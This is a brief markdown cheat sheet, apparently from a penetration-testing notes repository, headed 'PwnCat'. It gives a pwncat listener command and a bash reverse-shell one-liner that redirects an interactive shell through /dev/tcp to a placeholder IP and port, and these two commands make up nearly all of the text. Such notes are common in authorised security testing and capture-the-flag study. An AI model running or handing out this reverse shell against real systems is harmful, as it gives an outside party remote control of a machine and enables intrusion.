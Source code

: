 # PwnCat

# Local
`pwncat -l -p <port>`

## Remote
`/bin/bash -c '/bin/bash -i >& /dev/tcp/<local-ip>/<port> 2>&1 1>&1'`



